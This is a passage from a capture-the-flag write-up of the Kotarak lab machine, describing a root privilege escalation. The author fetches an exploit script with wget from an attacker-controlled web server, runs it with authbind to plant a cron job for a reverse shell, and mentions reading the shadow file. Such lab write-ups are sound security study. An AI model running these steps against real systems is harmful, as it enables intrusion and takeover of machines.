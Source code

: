 
Now the `cron` will result in a reverse shell. With a Python webserver in my VM, I’ll grab it with `wget`:

```sh
wget http://10.10.14.15:8000/wgetExploit.py
```

![](/Linux/Linux-Hard/Kotarak/Screenshots/wget.png)

Now run it with `authbind`, and it checks that the FTP server is good, and then waits:

```sh
authbind python wgetExploit.py
```

![](/Linux/Linux-Hard/Kotarak/Screenshots/poc.png)


The `shadow` file doesn’t have anything that useful in it. But hopefully this indicates that the `cron` was written. One minute later:

![](/Linux/Linux-Hard/Kotarak/Screenshots/root.png)
